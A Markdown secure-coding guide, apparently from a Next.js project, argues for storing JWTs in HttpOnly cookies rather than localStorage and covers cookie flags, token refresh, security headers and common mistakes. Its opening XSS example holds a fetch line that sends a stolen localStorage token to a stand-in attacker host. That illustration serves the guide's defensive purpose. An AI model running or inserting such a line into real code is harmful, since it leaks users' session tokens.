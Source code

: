 # JWT Security Best Practices

## 🚨 **Why localStorage is NOT Secure**

### **XSS Vulnerability**
```javascript
// Malicious script can easily steal tokens from localStorage
const token = localStorage.getItem('jwt_token');
fetch('https://attacker.com/steal', { body: token });
```

### **No HttpOnly Protection**
- Any JavaScript can access localStorage
- Malicious browser extensions can read tokens
- XSS attacks can steal tokens instantly

## ✅ **Secure Approach: HttpOnly Cookies**

### **Benefits of HttpOnly Cookies:**
1. **XSS Protection**: JavaScript cannot access HttpOnly cookies
2. **Automatic Expiration**: Cookies can be set to expire
3. **CSRF Protection**: SameSite attribute prevents CSRF attacks
4. **Secure Transmission**: Secure flag ensures HTTPS-only transmission

### **Implementation:**

```typescript
// ✅ SECURE: Server-side cookie setting
export async function setAuthCookie(token: string, user: User) {
  'use server';
  
  const { cookies } = await import('next/headers');
  const cookieStore = await cookies();
  
  cookieStore.set('auth_token', token, {
    httpOnly: true,        // 🔒 Cannot be accessed by JavaScript
    secure: true,          // 🔒 HTTPS only
    sameSite: 'strict',    // 🔒 CSRF protection
    maxAge: 60 * 60 * 24 * 7, // 🔒 7 days expiration
    path: '/',
  });
}
```

## 🔐 **Security Comparison**

| Method | XSS Safe | CSRF Safe | Auto Expire | Secure |
|--------|----------|-----------|-------------|---------|
| localStorage | ❌ | ✅ | ❌ | ❌ |
| sessionStorage | ❌ | ✅ | ✅ | ❌ |
| HttpOnly Cookies | ✅ | ✅* | ✅ | ✅ |

*CSRF protection requires SameSite attribute

## 🛡️ **Additional Security Measures**

### **1. Token Rotation**
```typescript
// Rotate tokens on each request
export async function refreshToken() {
  const response = await fetch('/api/refresh-token', {
    credentials: 'include' // Include HttpOnly cookies
  });
  return response.json();
}
```

### **2. Short Expiration Times**
```typescript
// Short-lived access tokens
maxAge: 60 * 15, // 15 minutes

// Long-lived refresh tokens
maxAge: 60 * 60 * 24 * 30, // 30 days
```

### **3. Secure Headers**
```typescript
// Add security headers
const headers = {
  'Content-Security-Policy': "default-src 'self'",
  'X-Frame-Options': 'DENY',
  'X-Content-Type-Options': 'nosniff'
};
```

## 🚀 **Production Implementation**

### **1. Environment Variables**
```bash
# .env.local
NEXT_PUBLIC_API_URL=https://api.yourapp.com
COOKIE_SECRET=your-secret-key
JWT_SECRET=your-jwt-secret
```

### **2. Middleware Protection**
```typescript
// middleware.ts
export function middleware(request: NextRequest) {
  const token = request.cookies.get('auth_token');
  
  if (!token && request.nextUrl.pathname.startsWith('/dashboard')) {
    return NextResponse.redirect(new URL('/login', request.url));
  }
}
```

### **3. Server Actions for Auth**
```typescript
// lib/auth-actions.ts
'use server';

export async function loginUser(email: string, password: string) {
  // Validate credentials
  const user = await validateUser(email, password);
  
  if (user) {
    // Set secure cookies
    await setAuthCookie(user.token, user);
    return { success: true };
  }
  
  return { success: false, message: 'Invalid credentials' };
}
```

## ⚠️ **Common Security Mistakes**

### **❌ DON'T:**
```typescript
// Storing sensitive data in localStorage
localStorage.setItem('jwt_token', token);
localStorage.setItem('user_password', password);

// Exposing tokens in URLs
window.location.href = `/dashboard?token=${token}`;

// Using weak encryption
const encrypted = btoa(token); // Base64 is NOT encryption!
```

### **✅ DO:**
```typescript
// Use HttpOnly cookies
await setAuthCookie(token, user);

// Use secure server actions
const result = await authenticateUser(credentials);

// Implement proper CSRF protection
const csrfToken = await getCSRFToken();
```

## 🔍 **Security Checklist**

- [ ] Use HttpOnly cookies for JWT storage
- [ ] Implement CSRF protection (SameSite cookies)
- [ ] Set secure cookie flags for HTTPS
- [ ] Use short expiration times for access tokens
- [ ] Implement token rotation/refresh
- [ ] Add Content Security Policy headers
- [ ] Validate all inputs server-side
- [ ] Use HTTPS in production
- [ ] Implement rate limiting
- [ ] Log security events
- [ ] Regular security audits

## 📚 **Additional Resources**

- [OWASP JWT Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html)
- [Next.js Security Best Practices](https://nextjs.org/docs/going-to-production#security)
- [MDN HttpOnly Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies)
